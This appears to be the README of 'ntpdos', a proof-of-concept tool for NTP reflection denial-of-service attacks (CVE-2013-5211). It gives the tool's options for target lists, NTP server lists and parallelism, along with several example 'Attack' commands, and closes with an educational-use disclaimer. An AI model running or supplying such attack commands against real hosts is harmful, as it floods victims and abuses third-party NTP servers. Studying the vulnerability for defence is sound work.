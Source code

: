 # ntpdos

PoC for distributed NTP reflection DoS (CVE-2013-5211).

## Usage

```
$ ./ntpdos -H
--==[ ntpdos by sepehrdad ]==--

usage:

  ntpdos -t <addr> -s <addr> [options] | [misc]

options:

  -t <addr>    - target ip address
  -T <file>    - list of target ip addresses
  -s <addr>    - ntp server ip address
  -S <file>    - list of ntp server ip addresses
  -p <num>     - number of parallel processes (default: 80)
  -d <num>     - delay in microsecs (default: 1000)

misc:

  -V           - show version
  -H           - show help

example:

  # Attack 127.0.0.1 with servers from servers.lst
  $ ntpdos -t 127.0.0.1 -S servers.lst

  # Attack targets from targets.lst with 192.168.2.11 server
  $ ntpdos -T targets.lst -s 192.168.2.11

  # Attack targets from targets.lst with servers from servers.lst
  $ ntpdos -T targets.lst -S servers.lst

  # Attack 1.2.3.4 with 5.6.7.8 using 200 parallel processes
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -p 200

  # Attack 1.2.3.4 with 5.6.7.8 with 1 microsec delay
  $ ntpdos -t 1.2.3.4 -s 5.6.7.8 -d 1

notes:

  * list of ip addresses should have 1 ip address per line

```

## License

This software is distributed under the GNU General Public License version 3 (GPLv3)

## LEGAL NOTICE

THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY! IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT. BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.

## Get Involved

**Please, send us pull requests!**
